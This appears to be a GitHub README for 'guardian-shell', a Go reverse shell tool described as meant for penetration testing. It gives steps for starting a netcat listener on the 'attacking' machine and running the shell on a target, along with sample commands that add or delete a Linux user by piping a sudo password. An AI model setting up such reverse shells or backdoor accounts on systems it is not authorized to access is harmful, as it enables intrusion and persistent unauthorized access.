 ## what is it ?

Guardian-shell is a  secure reverse shell tool written in Go. Designed with a focus on responsible use and ethical practices, it facilitates secure communication between authorized parties. Guardian-shell empowers you with the ability to remotely execute commands on target machines, for easy system management, monitoring and penetration testing. 

## usage

step 1 : from your (attacking) machine run `nc -lvp 20090`

step 2 : run guardian_shell on the machine you want to attack. 
copy from this repo and paste it on the machine you want to attack and run it `./guardian-shell`
on success, it will give you response `Connected to the reverse guardian listner!` or it will wait for listner.

## sample commands

to add new user in remote linux server
```
echo ur_sudo_password | sudo -S useradd testuser; echo new_password_123 | passwd testuser
```

to delete user from remote linux server
```
echo ur_sudo_password | sudo -S userdel testuser
```

## on attack machine 
![image](https://github.com/avvvet/guardian-shell/assets/25494022/23a2039c-0d53-4fa9-9551-0e0bf3eed47a)

## on the remote machine to be attacked
![image](https://github.com/avvvet/guardian-shell/assets/25494022/bcc2d45a-f4ec-49ad-9def-8c46bad02074)